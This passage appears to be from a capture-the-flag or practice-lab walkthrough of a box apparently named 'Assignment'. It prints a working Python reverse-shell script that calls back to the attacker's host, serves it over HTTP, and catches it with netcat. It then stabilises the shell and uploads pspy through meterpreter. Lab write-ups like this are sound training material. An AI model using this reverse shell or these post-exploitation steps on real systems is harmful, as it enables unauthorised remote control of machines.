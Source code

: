 ```
┌──(mark__haxor)-[~/Desktop/Scripts]
└─$ cat shell.sh
#!/bin/bash

#My lovely shell

export RHOST="192.168.45.5";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
                                                                                                                                                                                              
┌──(mark__haxor)-[~/Desktop/Scripts]
└─$ pyws -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.153.224 - - [26/Jan/2023 00:48:55] "GET /shell.sh HTTP/1.1" 200 -
```

And back on our listener 

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Assignment]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.153.224] 59240
$ id
id
uid=1000(jane) gid=1000(jane) groups=1000(jane)
$ 
```

Now stabilize the shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL + Z
stty raw -echo;fg
reset
```

Now i'll upload pspy to the box via msf

```
meterpreter > upload /usr/bin/pspy64 /tmp/pspy
[*] uploading  : /usr/bin/pspy64 -> /tmp/pspy
[*] Uploaded -1.00 B of 2.94 MiB (0.0%): /usr/bin/pspy64 -> /tmp/pspy
[*] uploaded   : /usr/bin/pspy64 -> /tmp/pspy
meterpreter >
```

I can now access it on the box in the /tmp directory

```
jane@assignment:~$ cd /tmp
jane@assignment:/tmp$ ls
pspy
snap.lxd
systemd-private-3a9c4738b2fd4b3284401a4f70b06797-ModemManager.service-rqDLui
systemd-private-3a9c4738b2fd4b3284401a4f70b06797-systemd-logind.service-YDqcQf
systemd-private-3a9c4738b2fd4b3284401a4f70b06797-systemd-resolved.service-wURusi
systemd-private-3a9c4738b2fd4b3284401a4f70b06797-systemd-timesyncd.service-JHB7xh
vmware-root_750-2957714542
jane@assignment:/tmp$ 
```
